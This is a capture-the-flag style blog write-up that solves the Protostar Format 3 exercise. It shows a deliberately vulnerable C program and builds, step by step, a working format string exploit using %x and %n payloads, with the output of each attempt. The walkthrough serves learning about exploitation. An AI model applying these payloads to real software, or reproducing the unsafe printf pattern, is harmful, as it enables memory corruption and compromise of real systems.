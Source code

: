 ```yaml
---
title: "Exploit Exercises - Protostar Format 3"
date: "2012-02-01T05:33:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-format-3.html"
---
```


Continuing in the String Format section, the next challenge we run across is [Format 3](http://exploit-exercises.com/protostar/format3). 

<!-- more -->

We're first given the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
 printf(string);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printbuffer(buffer);

 if(target == 0x01025544) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %08x :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This seems to be just like Format 2, except that we have to modify all 8 bytes instead of just 2. 

The process is still pretty much the same.  We will first find the memory address of "target", to get that out of the way: 

```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

I tried spamming the format3 executable with 15 "%x", since the last couple challenges have been lower than the typical 150 I was doing. 

```
user@protostar:/opt/protostar/bin$ echo AAAA`perl -e 'print "%x."x15'` | ./format3
AAAA0.bffff5e0.b7fd7ff4.0.0.bffff7e8.804849d.bffff5e0.200.b7fd8420.bffff624.41414141.252e7825.78252e78.2e78252e.
target is 00000000 :(
```

It appears that we get our "41414141" at 12 bytes popped.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ echo AAAA%x%x%x%x%x%x%x%x%x%x%x%x | ./format3
AAAA0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff62441414141
target is 00000000 :(
```

So let's try it with the memory address of "target" instead of "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000041 :(
```

Awesome! It's overwriting properly.  Our last byte shows as "41", meaning that printf wrote 41 characters.  However for the vulnerable program, it needs to be "44", so let's just increase it a little. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000044 :(
```

So it appears if I use "%11x" for one of the stack pops, it's just the right amount.  You can actually calculate this value using a calculator, but I've found myself usually just brute forcing it with multiple guesses. 

So let's work on the next 2 bytes. From several of the books and papers listed in the previous challenge, I found out how to handle this. You just start appending more data, with a junk buffer, and possibly some spacing, and it will continue in a similar fashion. You then just increment the byte you want to overwrite, going upwards in the memory space, so you don't overwrite the space you already wrote the first time. 

To feel out for how many stack pops we'd have to do, I experimented, and spammed an additional 15 after setting up the start of the next byte of "target": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKAAAAAAAA\xf5\x96\x04\x08" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKAAAAAAAA78257825.78257825.78257825.78257825.78257825.78313125.554a6e25.41414b4e.41414141.96f54141.78250804.2e78252e.252e7825.78252e78.2e78252e.
target is 00000044 :(
```

Now pay attention here. You'll see after 8 stack pops, you have "41414b4e.41414141".  The first byte has some junk from a previous memory address. Since we can only pass 4 "A"s, we'll need to buffer this a bit with additional junk bytes. To test that out, we can do: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJUAAAA\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJUAAAA782578257825782578257825782578257825782578313125554a6e25554a4b4e41414141
target is 00000044 :(
```

Now if we just convert that final "%x" to a "%n", we'll overwrite the second memory address shown with the number of bytes printed. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00008e44 :(
```

Awesome again! We overwrote the next 2 bytes!  But wait a minute.  It overwrote "8e", and we want to get "55".  There is nothing that we can add to "8e" to get "55", as it's larger.  We can't subtract, so this poses an issue.  However, there's nothing saying that we can't overwrite 4 bytes instead of just 2.  We could simply add to "8e" until we get "255", since the next 4 bytes needed are "0255".  I played around with some math, and found that I could do exactly that! 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00025544 :(
```

This is convenient for us, because now we don't have to do 4 separate overwrites, we can skip the third one, moving directly to the fourth.  For this last pair, we will need to write "01".  Off the bat, with such a low number, I knew that we'd have to do something similar, since there's no way we would ever be writing 0 characters in printf.  We would just have to raise it to "101", and the first "1" would get cut off into a virtual la-la land. 

Again, let's find the length of stack addresses to pop, by spamming 15 "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNKAAAA" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNKAAAA78257825.78257825.78257825.34257825.25783336.4e554a6e.4141414b.2e782541.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
target is 00025544 :(
```

This time we have 7 pops, and again the buffer is mis-aligned.  So let's test the 7 pops and fixing the buffer alignment: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNAAAA%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNAAAA78257825782578257825782534257825257833364e554a6e41414141
target is 00025544 :(
```

Removing one character from the 4-char word "JUNK" seemed to do the trick.  We are now showing "41414141" as the last word again. 

So let's switch the last "%x" to "%n", and the "AAAA" to our last memory address, and see what it outputs. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
target is 8c025544 :(
```

Alright, so it's giving "8c", and we need to get to "101".  That's roughly 117 bytes difference.  I started tinkering from there, and found that it needed 125 extra characters. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%125x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
you have modified the target :)
```

Awesome! We actually were able to overwrite an arbitrary value in memory to a specific value of our desire.  Think of the implications of this.  I was solving it, and afterwards read about a very new string format vulnerability in "sudo".  More information can be read [here](http://www.sudo.ws/sudo/alerts/sudo_debug.html).  These are real-world applications, and these bugs are found in the wild.  It really blows my mind.
